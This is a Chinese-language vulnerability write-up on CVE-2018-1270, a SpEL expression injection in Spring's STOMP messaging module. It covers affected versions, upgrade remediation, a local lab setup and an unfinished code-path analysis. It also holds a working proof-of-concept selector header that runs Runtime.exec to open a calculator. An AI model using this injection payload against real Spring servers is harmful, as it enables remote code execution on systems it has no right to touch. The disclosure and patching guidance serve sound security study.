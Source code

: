 ```yaml
---
layout: post
title: SpringMessaging命令执行漏洞 - CVE-2018-1270
description: "Vulnerabilities"
tags: [Vulnerability, 漏洞分析]
image:
  background: triangular.png
---
```



漏洞概述
---
<https://pivotal.io/security/cve-2018-1270>

STOMP（Simple Text Orientated Messaging Protocol）全称为简单文本定向消息协议，它是一种在客户端与中转服务端（消息代理Broker）之间进行异步消息传输的简单通用协议，它定义了服务端与客户端之间的格式化文本传输方式。已经在被许多消息中间件与客户端工具所支持。STOMP协议规范：<https://stomp.github.io/stomp-specification-1.0.html>

Spring框架中的 **spring-messaging** 模块提供了一种基于WebSocket的STOMP协议实现，STOMP消息代理在处理客户端消息时存在SpEL表达式注入漏洞，攻击者可以通过构造恶意的消息来实现远程代码执行。

影响范围：SpringFramework 5.0 ~ 5.0.4，4.3 ~ 4.3.14，以及停止维护的更老版本均受影响


最新安全公告：https://pivotal.io/security/cve-2018-1275

修复方案： 

1.请升级Spring框架到最新版本(5.0.5、4.3.15及以上版本); 

2.如果你在用 SpringBoot，请升级到最新版本(2.0.1及以上版本);

同时Spring还修复其他两个漏洞，有兴趣的朋友可以自行分析下：
<https://pivotal.io/security/cve-2018-1271>
<https://pivotal.io/security/cve-2018-1272>

环境搭建
---

搭建指南：<https://spring.io/guides/gs/intellij-idea/>

示例项目：<https://github.com/spring-guides/gs-messaging-stomp-websocket>

下载示例环境代码：


```
git clone https://github.com/spring-guides/gs-messaging-stomp-websocket
git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3
```

打开IntelliJ IDEA，在欢迎界面点击Import Project，选择刚下载的`gs-messaging-stomp-websocket`示例程序中`complete`项目下的Maven **pom.xml**文件，进行导入，一顿Next操作之后，IDEA会创建一个可以直接运行的项目。

点击运行，启动Spring Boot服务，访问http://localhost:8080/。
![Run]({{ site.url }}/images/articles/201804/spring-messaging-run.png)

![界面]({{ site.url }}/images/articles/201804/spring-messaging-web.png)

漏洞复现
---

篡改前端app.js中Websocket connect函数中，插入恶意selector代码，PoC如下：

For Mac

```javascript
var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('open /Applications/Calculator.app')"};
```

For Windows

```javascript
var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('calc.exe')"};
```


![PoC]({{ site.url }}/images/articles/201804/spring-messaging-poc.png)

在Web界面上点击Connect，然后随便Send几个字符。

![PoC2]({{ site.url }}/images/articles/201804/spring-messaging-poc2.jpg)


修复测试，我们将pom.xml中的org.springframework.boot设置到2.0.1版本，org.springframework.boot中会引用5.0.5版本的Spring框架。再测试则会发现漏洞已经无法利用了。pom.xml：

```
    ...
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.0.1.RELEASE</version>
    </parent>
    ...
```


漏洞分析
---
根据官方描述，漏洞在**spring-messaging**包中，下载`spring-messaging 5.0.4`和`5.0.5`版本源码：

    http://central.maven.org/maven2/org/springframework/spring-messaging/5.0.5.RELEASE/
    http://central.maven.org/maven2/org/springframework/spring-messaging/5.0.4.RELEASE/

对比代码变动，可以看到主要集中在`simp/broker`和`simp/stomp`目录下：
![diff]({{ site.url }}/images/articles/201804/spring-messaging-diff.png)

**spring-messaging** 模块提供了一种基于WebSocket的STOMP协议实现，查看STOMP协议文档：<https://stomp.github.io/stomp-specification-1.0.html>

历史上Spring的多个命令执行漏洞均优于SpEL表达式引起，比如前段时间的Spring Data REST RCE漏洞<https://mp.weixin.qq.com/s/uTiWDsPKEjTkN6z9QNLtSA>。可以看到STOMP协议规范中，

    Stomp brokers may support the selector header which allows you to specify an SQL 92 selector on the message headers which acts as a filter for content based routing.

    You can also specify an id header which can then later on be used to UNSUBSCRIBE from the specific subscription as you may end up with overlapping subscriptions using selectors with the same destination. If an id header is supplied then Stomp brokers should append a subscription header to any MESSAGE commands which are sent to the client so that the client knows which subscription the message relates to. If using Wildcards and selectors this can help clients figure out what subscription caused the message to be created.

研究Spring对基于WebSocket的STOMP协议的具体实现：<https://blog.csdn.net/pacosonswjtu/article/details/51914567>

跟一下selector这个点。

示例项目中的Broker有个'/hello'的入口点，我们在GreetingController的greeting方法里下个断点，跟一下消息交互的处理流程。Connect之后，在页面上点击Send，

GreetingController.greeting() -> InvocableHandlerMethod.doInoke() -> InvocableHandlerMethod.invoke() -> AbstractMethodMessageHandler.handleMatch() -> HandlerMethodReturnValueHandlerComposite returnValueHandlers.handleReturnValue() 

handleReturnValue() 




相关知识 - WebSocket
---
TODO

References
---
- <https://threathunter.org/topic/5ac8cef0ec721b1f1966f54c>
- <https://xz.aliyun.com/t/2252>
- <https://github.com/CaledoniaProject/CVE-2018-1270>
- 使用WebSocket 和 STOMP 实现消息功能 <https://blog.csdn.net/pacosonswjtu/article/details/51914567>